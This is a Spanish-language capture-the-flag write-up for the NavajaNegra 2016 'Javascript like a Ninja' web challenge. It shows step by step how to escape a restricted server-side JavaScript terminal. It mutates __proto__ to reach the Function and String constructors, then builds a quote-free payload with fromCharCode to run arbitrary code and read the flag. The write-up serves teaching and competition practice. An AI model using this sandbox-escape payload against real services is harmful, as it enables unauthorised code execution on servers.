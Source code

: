 # NavajaNegra 2016 – Web 2 – Javascript like a Ninja

Una vez superada la primera prueba, deberíamos haber obtenido las credenciales del administrador MojoJojo.

Así que el primer paso es ‘encontrar’ el panel de login y acceder: http://challenges.ka0labs.org:31337/login

![](img/mojojojo-login.png)

Una vez dentro nos encontramos con un terminal llamado *MoJS* en el que podemos escribir instrucciones, al parecer en lenguaje *JavaScript*.

![](img/mojojojo-terminal.png)

Si revisamos el código fuente de la página, podemos encontrar un comentario con información de como utilizar el terminal.

```
Notes:
Ok, with all that languages out there I sometimes forget my own =_=’
Types: only integers to count
Operations: addition with ‘+’
Auxiliar functions: ‘help’
Assign to ‘result’ to see output
```

Con esta información ya deberíamos poder utilizar correctamente la terminal.
Probamos con `result=help;` y obtenemos en pantalla la función help


```
"function () { return execute.toString(); }"
```

Si la ejecutamos con `result=help(0);` obtenemos el código de la función *execute*, que es la parte servidor, encargada de recibir las instrucciones que escribimos en el terminal.

![](img/mojojojo-execute.png)

Una vez asimilado el código, vemos como las variables que escribimos en el terminal se guardan en el Objeto *scope[sessId]*, también tenemos la restricción de no poder utilizar comillas y generar una cadena de texto o utilizar el carácter punto para lanzar un método.

Una de las pistas nos recomienda utilizar prototypes y mutar el objeto, `Javascript objects have prototypes. Mutate the scope.`

Tras innumerables pruebas, se consigue mutar a diferentes tipos, si mutamos a *Function* podemos utilizar constructor para crear una función propia.

```
MoJS> __proto__=help;
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=constructor(123456);
"function anonymous() {\n123456\n}"
```

Incluso somos capaces de ejecutar la función, aunque de momento es una función que no devuelve nada.

```
MoJS> result=constructor(123456)(0);
"undefined"
```

Nuestro siguiente objetivo es generar un *String* definido por nosotros para incluirlo en una función y poder ejecutar código.

Para ello mutamos a *String* utilizando la siguiente instrucción, es importante no haber mutado antes a *Function* para que funcione.

```
MoJS> __proto__=constructor(help(0));
"undefined"
MoJS> result=constructor;
"function String() { [native code] }"
```

Por ultimo, mutamos a la clase *String*, donde tendremos acceso a la ansiada función *fromCharCode*.

```
MoJS> result=constructor;
"function Function() { [native code] }"
MoJS> result=fromCharCode;
"function fromCharCode() { [native code] }"
```

Ahora solo nos falta codificar la instrucción JavaScript que queramos ejecutar en el servidor.

Para ello necesitamos convertir nuestra instrucción a una secuencia de valores decimales y concatenarlos después de utilizar *fromCharCode* en cada uno de ellos. Por último, utilizamos `constructor(instruccion)(0);` para crear la función y ejecutarla.

```javascript
return Object.keys(this);

114,101,116,117,114,110,32,79,98,106,101,99,116,46,107,101,121,115,40,116,104,105,115,41,59

result=constructor(fromCharCode(114)+fromCharCode(101)+fromCharCode(116)+fromCharCode(117)+fromCharCode(114)+fromCharCode(110)+fromCharCode(32)+fromCharCode(79)+fromCharCode(98)+fromCharCode(106)+fromCharCode(101)+fromCharCode(99)+fromCharCode(116)+fromCharCode(46)+fromCharCode(107)+fromCharCode(101)+fromCharCode(121)+fromCharCode(115)+fromCharCode(40)+fromCharCode(116)+fromCharCode(104)+fromCharCode(105)+fromCharCode(115)+fromCharCode(41)+fromCharCode(59))(0);

"execute,scope,fl4g"
```

Finalmente repetimos el paso anterior y codificamos la instrucción *return fl4g;* para obtener el flag.

```javascript
return fl4g;
```

Aquí vemos la tres instrucciones necesarias para resolver la prueba

![](img/mojojojo-solucion.png)

